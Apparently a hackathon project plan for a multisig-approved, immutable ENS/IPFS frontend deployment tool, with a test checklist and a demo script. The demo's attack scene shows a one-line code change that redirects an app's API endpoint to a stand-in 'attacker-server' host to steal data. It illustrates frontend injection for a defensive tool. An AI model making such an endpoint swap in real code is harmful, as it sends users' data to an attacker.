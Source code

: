 ```markdown

Review Flow:
- [ ] Safe signers can see enhanced description
- [ ] Links to GitHub commit work
- [ ] Build hash is displayed
- [ ] Can preview on IPFS gateway

Approval Flow:
- [ ] Collect signatures (3 of 5)
- [ ] Wait 6h delay (or simulate)
- [ ] Execute transaction
- [ ] Subdomain created (v0.test.eth)
- [ ] Contenthash points to IPFS CID
- [ ] Fuses are burned (locked)
- [ ] Website accessible at ENS gateway

Immutability Test:
- [ ] Try to change subdomain contenthash (should fail)
- [ ] Try to unwrap subdomain (should fail)
- [ ] Verify subdomain is permanently locked

Edge Cases:
- [ ] First deployment (v0)
- [ ] Second deployment (v1 auto-increments)
- [ ] Private repository (with GitHub token)
- [ ] Network errors handled gracefully
```

## Demo Preparation

### Demo Script (5 minutes)

**Scene 1: The Problem (60 seconds)**
```
[Slide: Current state of web3 frontend security]

"Frontend injection attacks cost millions. Even with Safe multisig,
signers see transaction data like this..."

[Show Safe UI with hex data: 0xe301017012...]

"They have NO IDEA what they're approving. They just trust the process.
And that's how hackers win."
```

**Scene 2: Live Attack Simulation (90 seconds)**
```
[Share screen: VS Code + Terminal]

1. Show normal-looking website code
2. "Let's say an attacker compromises a dev machine..."
3. Make subtle malicious change:
   // In api.ts
   - const API = 'https://api.myapp.com'
   + const API = 'https://api.attacker-server.com'  // Steals data!

4. Git commit + push (simulate hacked dev)
5. Watch GitHub Actions deploy
6. "In traditional setup, this would be LIVE in 2 minutes..."
```
